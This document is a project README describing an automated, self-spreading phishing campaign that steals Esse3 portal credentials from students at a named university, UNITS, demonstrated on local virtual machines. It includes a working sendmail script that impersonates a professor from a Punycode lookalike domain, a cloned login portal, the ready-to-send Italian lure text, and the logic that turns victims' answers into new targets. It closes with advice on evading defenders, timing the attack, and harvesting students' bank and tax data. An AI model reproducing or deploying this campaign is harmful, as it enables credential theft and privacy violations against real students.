


# Automatic Phishing Campaign Targeting UNITS Students 


## Introduction

The project involves an attack to steal Esse3 credentials from students. The attacker must know at least one student’s email address. It sends a phishing email (disguised as a professor) requesting the student to complete a questionnaire. Once the student logs in, they are asked to enter the names of other students who were sitting nearby during an exam. This information is used to reconstruct the map of students in the classroom.  
The program receives the student’s credentials and the names of other students, recreates their email addresses, and sends phishing messages to them as well. The attack does not immediately harm individual students, who may not realize their mistake. However, over time, the attacker could obtain the credentials of many students in the course. This attack makes sense because Esse3 does not require two-factor authentication.

Please note that this idea is personal, and I am familiar with some of the technologies used for the demo (details provided below).


## Technologies Used

1. **Ubuntu on Virtualbox**: 
    The demonstration is conducted using 2 Ubuntu virtual machines with Virtualbox.

2. **NodeJS**: 
    I created a website clone of Esse3 using NodeJs and my previous knowledge of web programming (with some assistance from Chat GPT to speed up code writing). The goal was to create a site as similar as possible to the real one. The site consists of several HTML pages, CSS files, and JavaScript modified for my purposes.  
2. **eXtract Snippet**: 
    I used the Chrome extension “eXtract Snippet” to clone the portal, which allowed me to obtain all the HTML and CSS files (https://chromewebstore.google.com/detail/extract-snippet/bfcjfegkgdoomgmofhcidoiampnpbdao)

3. **JSON**: 
    Used for data collection and management (credentials and email addresses)

4. **Bash Script**: 
    I developed a Bash program for automated email sending. The program takes the recipient’s email address as input, while the sender remains the same (the attacker).

5. **Git**: 
    I used Git with Github for writing the program and kept the repository public on my personal account (I had previously used Git with GitLab)

6. **Mail server (Postfix e Dovecot)**: 
    I used the Postfix and Dovecot packages to set up 2 email servers (one for each Linux virtual machine).  
    These tools allowed me to create mail servers that function within the local network and use a domain name of my choice (in this case, not registered but functional only within the private network).  
    Setting up these servers required extensive research and consultation with multiple sources to understand how to use these services

7. **Punycode**: 
     I used the Punycode tool to create an email domain that closely resembles the real one but is actually different (it’s a domain that could theoretically be purchased and used on the internet). Punycode is an encoding system used to represent domain names containing non-ASCII characters. It allows the representation of international characters within the Domain Name System (DNS), which originally supports only ASCII characters (Latin letters without accents, numbers, and hyphens). Punycode converts a domain name containing Unicode characters (such as accented letters, Chinese characters, Arabic, etc.) into a string of ASCII characters. This is done so that the domain name can be managed by existing DNS servers.  
     In my case, I used Punycode to deceive users with `unıts.local` (which should be `units.local`). The first i is actually a character that does not belong to the Latin alphabet. The correct Punycode representation of the string is `xn--unts-mza.local`.  


## Domain Name Configuration

For the project, modifying the `/etc/hosts` file on both virtual machines was crucial.

The `/etc/hosts` file in Linux is a configuration file that maps IP addresses to domain names. It acts as a local list for domain name resolution, allowing the system to translate domain names into IP addresses without querying an external DNS server. In practice, it specifies which IP addresses correspond to specific domain names, enabling quick and local resolution of network names.

```bash
cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 vm-VirtualBox
10.0.2.6 studenti.units.local
10.0.2.7 xn--unts-mza.local essse3
...
```
In both virtual machines, I mapped the addresses to:

- `units.studenti.local`: to make the university email service functional.
- `xn--unts-mza.local`: to make the fake university email service work (the attacker’s service).
- `essse3.local`: the fake Esse3 university portal domain.

##  Email Server Configuration
The two services I used for configuring the mail servers are Postfix and Dovecot.

**Postfix**: It is a Mail Transfer Agent (MTA) responsible for sending and receiving emails to and from other mail servers. It handles the routing and delivery of emails.

**Dovecot**: It is a Mail Delivery Agent (MDA) and an IMAP/POP3 server. Dovecot manages email storage and provides users with access to read their emails via email clients, using the IMAP and POP3 protocols.

Configuration in `/etc/postfix/main.cf` for studenti.units.local (only what needs to be modified, leave the rest unchanged):

```
mydomain = studenti.units.local
myorigin = /etc/mailname
mydestination = $myhostname, studenti.units.local
mynetworks = 127.0.0.0/8 [::ffff:127.0.0.0]/104 [::1]/128 10.0.2.0/24
home_mailbox = Maildir/
relay_domains = xn--unts-mza.local
transport_maps = hash:/etc/postfix/transport # for the comunication with xn--unts-mza.local
```

Similarly, I also modified the configuration for xn--unts-mza.local (where relay_domains will be the same as studenti.units.local).

Configuration in `/etc/dovecot/dovecot.conf` for both servers (only modify what is necessary, leaving the rest unchanged):

```
protocols = imap pop3
mail_location = maildir:~/Maildir
```

I have configured the services to be always active and start automatically during boot:
```bash
sudo systemctl enable postfix && sudo systemctl enable dovecot
```
I used Mozilla Thunderbird as email client for users (students). I added all the users to a single machine to simplify my demonstration (the same of the mail server).

## Virtual machine configuration


I use 2 Ubuntu virtual machines on the same network with NAT (a network specifically for these 2 machines and this demo).

- **Ubuntu 1**: 
The email server is set up to simulate the university’s domain `studenti.units.local`.  
On the same machine, I use the Mozilla Thunderbird email client with several registered email accounts. These accounts belong to different students. Ideally, separate virtual machines would have been more accurate, but due to host resource limitations, I combined them.  
The accounts can exchange emails with each other, just like regular email addresses.

- **Ubuntu 2**: 
The email server is used to send emails on behalf of the attacker. The domain is `unıts.it` (using Punycode: `xn--unts-2pa.it`).  
This machine also hosts the Node.js program that the attacker uses to:
    - Host the cloned website.
    - Automate the attack.
    - Obtain and manage stolen data.

## Procedure

Using the command `node app.js user@studenti.units.local` I start the Node.js web-server and put the fake university website “online”.  
I didn’t use Punycode for the website spoofing because I noticed that Chrome detects it and blocks the site. Instead, I chose another deception technique: I added an “s” to the name “esse,” hoping users don't notice.


I wrote a script that automates email sending: you simply provide the recipient’s email address as a parameter, and the program sends an email on behalf of the professor, containing the link to the malicious website.

```bash
#!/bin/bash

recipient=$1
subject="Richiesta compilazione questionario"
body="Buongiorno, a lezione mi sono dimenticato di chiedervi di compilare questo questionario rapidissimo in cui vi chiedo vicino a chi eravate seduti all'esame.
Cercate di compilarlo con una certa rapidità per favore, vi lascio il link: 
http://essse3:3100/login.html"

email="To: $recipient
Subject: $subject

$body"

echo "$email" | sendmail -F "Professore" -f "professore@xn--unts-mza.local" "$recipient"

```

What the victim sees:



If the same message is opened in a text editor, we can read this: 
```
Return-Path: <professore@unıts.local>
X-Original-To: edi@studenti.units.local
Delivered-To: edi@studenti.units.local
Received: from xn--unts-mza.local (xn--unts-mza.local [10.0.2.7])
  by gabriele-V (Postfix) with UTF8SMTPS id 5CB56100BEF
  for <edi@studenti.units.local>; Tue,  4 Jun 2024 11:00:02 +0200 (CEST)
Received: by xn--unts-mza.local (Postfix, from userid 1000)
  id 227039FFFB; Tue,  4 Jun 2024 11:00:47 +0200 (CEST)
To: edi@studenti.units.local
Subject: Richiesta compilazione questionario
Message-Id: <20240604090047.227039FFFB@xn--unts-mza.local>
Date: Tue,  4 Jun 2024 11:00:47 +0200 (CEST)
From: Professore <professore@unıts.local>

Buongiorno, a lezione mi sono dimenticato di chiedervi di compilare questo questionario rapidissimo in cui vi chiedo vicino a chi eravate seduti all'esame, purtroppo ho fatto un errore con la mappa cartacea.
Cercate di compilarlo con una certa rapidità per favore, vi lascio il link: 
http://essse3:3100/login.html
```

The attacker now waits that the victim completes the questionnaire. When the questionnaire is filled out, the server receives the credentials and the names of two other students (those sitting to the right and left of the student). The program recreates their email addresses and automatically sends the phishing email to them. It can be said that the theoretical and optimistic spread speed is exponential.

  

For simplicity, the last name is not used for email generation. Additionally, if an email has already been sent to a student, no further emails will be sent to that student. If a student is located at one end of the classroom, they can leave one of the two fields empty and mention the name of only one student.

## Results

At the end of the phishing campaign (but also during program execution), you can consult the file `/stolenData/pwd.json` and find something like this:

```json
[
  {
    "user": "edi",
    "pwd": "123456"
  }
  {
    "user": "elma",
    "pwd": "password"
  }
  {
    "user": "andrea",
    "pwd": "andrea00"
  }
]
```
The obtained email addresses to which the phishing email was sent can be found in `/stolenData/send_email.json`. For example, in this case, we will find:

```json
[
  {
    "email": "edi@studenti.units.local"
  },
  {
    "email": "elma@studenti.units.local"
  },
  {
    "email": "andrea@studenti.units.local"
  }
]
```

For the email addresses, a simple list would have sufficed. However, the JSON format could be useful if you want to include attributes or simply perform operations with other JSON data conveniently.

## Conclusions and Potential Improvements

The program is demonstrative and does not account for many aspects that should be improved to make the attack more effective. Here are some limitations:

- THE MOST IMPORTANT: The passing of data (the credentials and questionnaire responses) between the client and the server starts via the nodeJs socket.io module. This solution is not secure (there is no encryption) and the communication can easily be intercepted.
It is possible to implement TLS but it would be even better to use a tool that can transmit the data to the attacker without it being possible for a defender to locate the attacker.
- I used the Italian language for the Esse3 website because I believe that the majority of students consult it in Italian. However, there is also an English version that I couldn’t activate in my project (Erasmus students might become suspicious).
- The only information requested is the names of students who sat close during the exam. Students may forget or simply not know the identity of one or more colleagues.
- A significant limitation is that the phishing expansion is limited to a single row of desks. It would be more effective to ask for additional information, such as the students with whom they have studied and those sitting in front and behind.


I consider it highly likely that an attack of this kind could be discovered quickly if carried out during regular classes. This is because it’s probable that someone—either a student or a professor—would express suspicion. Alternatively, it might be more effective to conduct the attack at the end of the course, during the exam session (immediately after the exam).

In this case, the attacker’s goal is not money but sensitive data. The attacker should swiftly use the stolen credentials to access the Esse3 portal and obtain additional data about individual students: contact information, photos, tax details (including income), and bank data (IBAN).


## References
Official documentation  
https://www.postfix.org/  
https://www.dovecot.org/

Practical Guide  
https://www.linuxbabe.com/mail-serversetup-basic-postfix-mail-sever-ubuntu

The idea for Punycode came to me while learning about  
https://tryhackme.com/r/room/pyramidofpainax

To perform unicode/punycode conversion:  
https://www.punycoder.com/


